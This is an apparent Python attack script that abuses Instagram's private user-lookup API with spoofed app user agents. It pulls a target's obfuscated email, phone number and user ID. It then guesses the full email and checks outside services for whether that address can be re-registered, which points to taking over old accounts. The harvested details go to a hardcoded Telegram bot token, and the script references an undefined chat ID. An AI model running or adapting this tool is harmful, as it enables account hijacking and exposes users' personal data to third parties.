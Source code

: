 import requests,os,random
from time import sleep
user_agent = [
    "Instagram 99.4.0 S3od_al3nzi (Dmaral3noOoz)",'Instagram 155.0.0.37.107 Android (28/9; 320dpi; 720x1468; samsung; SM-A102U; a10e; exynos7885; en_US; 239490550)',
    'Instagram 64.0.0.12.96 (iPhone8,1; iOS 12_0_1; pt_BR; pt-BR; scale=2.00; gamut=normal; 750x1334; 124976489)',
    'Instagram 8.4.0 (iPhone7,2; iPhone OS 9_3_2; nb_NO; nb-NO; scale=2.00; 750x1334',
    'Instagram 93.1.0.19.102 Android (21/5.0.2; 240dpi; 540x960; samsung; SM-G530H; fortuna3g; qcom; ar_AE; 154400379)'
]
X=int(input("[?] With telegram ? \n[!] 0 = NO | 1 = YES\n+> "))
if X == 1 :
	try:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAEyKd5RxKtpa6R1cLU-OWWyLQOIGddJWkI/sendMessage?chat_id={ic}&text=HI\nIf you have a problem tell me\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	except:
		print("[!] Try with VPN ")
		input("")
		exit()
else:
	pass
os.system('cls' if os.name == 'nt' else 'clear')#DOOM
print("""\033[0;97m𝐈𝐍𝐒𝐓𝐀 : 𝟗𝟔𝟖.𝐎𝐏𝐒\n\033[1;34m𝐈𝐟 𝐲𝐨𝐮 𝐡𝐚𝐯𝐞 𝐚 𝐩𝐫𝐨𝐛𝐥𝐞𝐦, 𝐭𝐞𝐥𝐥 𝐦𝐞 𝐨𝐧 𝐈𝐧𝐬𝐭𝐚𝐠𝐫𝐚𝐦""")
def ops ():
	print('\n'+'\033[1;30m='*20+'\n')
	user=input("\033[1;30m[\033[0;37m?\033[1;30m] username or url user :\033[0;37m")
	try:
		user=user.split("/")[3]
		user=user.split("?")[0] or user.split("/")[0]
	except:
		pass
	url = "https://i.instagram.com:443/api/v1/users/lookup/"
	cookies = {"mid": "XOSINgABAAG1IDmaral3noOozrK0rrNSbPuSbzHq"}
	x=random.choice(user_agent)
	headers = {"Connection": "close", "X-IG-Connection-Type": "WIFI", "X-IG-Capabilities": "3R4=",
           "Accept-Language": "ar-AE",
           "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
           "User-Agent": x,
           "Accept-Encoding": "gzip, deflate"}
	data = {"signed_body": "35a2d547d3b6ff400f713948cdffe0b789a903f86117eb6e2f3e573079b2f038.{\"q\":\"%s\"}" % user }
	try:
		re = requests.post(url, headers=headers, cookies=cookies, data=data)
		if re.status_code == 200:
			pass
		elif re.status_code == 409 or 404:
			print("\033[1;31m[!] username bad !")
			print('\n'+'\033[1;30m='*20+'\n')
			ops()
		elif re.status_code == 429:
			print("\033[1;31m[!] wait 5m")
			print('\n'+'\033[1;30m='*20+'\n')
			sleep(60*5)
			ops()
		info = re.json()
	except:
		print("\033[1;31m[!] there is no Internet")
		print('\n'+'\033[1;30m='*20+'\n')
		ops()
	try:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;32m "+info['obfuscated_email'])
		m1=(user[0])
		m2=(user[-1])
		s=info["obfuscated_email"].split("@")[0]
		m3=(s[0])
		m4=(s[-1])
		if m1 == m3 and m2 == m4:
			v=0
			if '@yahoo.com' in info["obfuscated_email"]:
				s1="@yahoo.com"
			elif '@gmail.com' in info["obfuscated_email"]:
				s1="@gmail.com"
			elif "@a**.com" in info["obfuscated_email"]:
				s1="@aol.com"
			elif "@hotmail.com" in info["obfuscated_email"]:
				s1="@hotmail.com"
			elif "@o*****.sa" in info["obfuscated_email"]:
				s1="outlook.sa"
			elif "@g*****.com" in info["obfuscated_email"]:
				s1="@googlemail.com"
			elif '@m***.com' in info["obfuscated_email"]:
				s1="@mail.com"
			elif '@f*****.fm' in info["obfuscated_email"]:
				s1="@fastmail.fm"
			else:
				s1="@"+info["obfuscated_email"].split("@")[1]
			if "*" in s1:
				print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
				ops()
			else:
				eml=user+s1
				p=requests.get("http://tweakpy-filza.ueuo.com/api.php?email="+eml).text
				if "False" in p:
					if v == 1:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+user+"@googlemail.com").text
					else:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+eml).text
					if "Linked Or Ban" in rm:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;32mYES")
						print("\033[1;30m[\033[0;37m$\033[1;30m] Email Available :\033[1;32m "+eml)
					else:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
						ops()
				else:
					print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
					ops()
		else:
			print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
			ops()
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;31m False")
		ops()
	try:
		po=info['obfuscated_phone']
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number :\033[1;32m "+ po)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number : \033[1;31mFalse")
		po="False"
	try:
		iid=info['user_id']
		print(f"\033[1;30m[\033[0;37m$\033[1;30m] user id :\033[1;32m {iid}")
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] user id : \033[1;31mFalse")
	try:
		uid=info['user_id']
		x=requests.get(f"https://o7aa.pythonanywhere.com/?id={uid}").text
		x1=str(x).split('"data": ')[1]
		x2=str(x1).split(', "telegram":')[0]
		print("\033[1;30m[\033[0;37m$\033[1;30m] data :\033[1;32m "+x2)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] data : \033[1;31mFalse ")
	if X == 1:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAEyKd5RxKtpa6R1cLU-OWWyLQOIGddJWkI/sendMessage?chat_id={ic}&text=NEW OLD ACC\nUser : {user}\nEmail : {eml} Available or ban\nPhone : {po}\nData : {x2}\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	else:
		pass
	print('\n'+'\033[1;30m='*20+'\n')
	ops()
ops()
